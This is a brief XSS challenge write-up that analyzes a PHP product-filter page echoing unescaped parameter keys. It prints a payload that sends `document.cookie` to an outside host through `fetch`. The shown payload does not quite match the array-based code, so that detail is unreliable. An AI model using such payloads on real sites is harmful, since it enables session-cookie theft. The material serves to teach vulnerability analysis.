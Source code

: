 # XSS - Case Study #3 (Feb 23-28, 2025)

## Overview
Tweet URL: https://x.com/intigriti/status/1893240582044066130

## Code Analysis
In this writeup, I'll analyze an XSS vulnerability discovered in the filtering mechanism of a search feature.

```php
<?php
$product_filter = $_GET['filter']; // Get the filter parameter from the URL
$products = array(); // Array of products

?>

<!-- Display the filtered products -->
<h2>Filter products</h2>
<?php
    if (isset($product_filter)) {
        echo "<p>You're currently filtering by \"" . implode('", "', array_keys($product_filter)) . "\"</p>";
    }
?>
```
Here is the vulnerability. The `product_filter` parameter is directly used in the `implode` function without proper validation or sanitization.

## Impact
An attacker can craft a malicious URL with a payload that includes JavaScript code, which will be executed in the context of the website. For example, a payload like `?filter=<img src=x onerror=fetch('https://vuln.me/#'+document.cookie)>` would trigger an XSS attack when the page is loaded.

## Solving the Issue
To prevent XSS attacks, it is important to properly sanitize and validate user input before using it in dynamic content. In this case, the `product_filter` parameter should be sanitized and validated before being used in the `implode` function.

